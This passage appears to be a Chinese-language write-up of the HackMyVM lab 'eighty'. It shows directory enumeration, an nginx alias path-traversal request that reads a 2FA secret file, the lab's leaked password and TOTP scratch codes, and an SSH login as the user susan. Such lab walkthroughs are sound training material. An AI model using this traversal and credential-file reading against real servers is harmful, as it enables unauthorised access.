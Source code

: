 ```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 40]
/lostpasswd.txt       (Status: 200) [Size: 50]
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================

┌──(root㉿kali)-[~/Desktop/hmv/eighty]
└─# curl http://susan.eighty.hmv/web/lostpasswd.txt
8ycrois-tu0 + /home/susan/secret/.google-auth.txt


```

### 2.4. 目录穿越
这里告诉了我们一个路径 `/home/susan/secret/.google-auth.txt`
我们可以利用目录穿越读取度这个文件
> 因为 `location /web` 写的不规范 正确应该是 `location /web/`

```bash
┌──(root㉿kali)-[~/Desktop/hmv/eighty]
└─# curl http://susan.eighty.hmv/web../secret/.google-auth.txt
2GN7KARBONVR55R7SP3UZPN3ZM
" RATE_LIMIT 3 30
" WINDOW_SIZE 17
" DISALLOW_REUSE
" TOTP_AUTH
71293338
48409754
27074208
60216448
17908010

```

> 这是一段 **TOTP（基于时间的一次性密码，Time-Based One-Time Password）** 配置文件，通常用于双因素身份验证（2FA）的种子和相关参数
> `2GN7KARBONVR55R7SP3UZPN3ZM`是 TOTP 的密钥种子（Secret Key），通常是一个 Base32 编码的字符串。它用于生成时间敏感的一次性密码

简单来说就是还要输入一次验证码 。这里验证码选择下面任意一个即可
利用密码 `8ycrois-tu0` 和验证码登录上去
```bash

┌──(root㉿kali)-[~]
└─# ssh susan@192.168.112.23
(susan@192.168.112.23) Password:
(susan@192.168.112.23) Verification code:
Linux eighty 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr  7 07:05:11 2021
susan@eighty:~$


susan@eighty:~$ sh flag.sh

                                   .     **
                                *           *.
```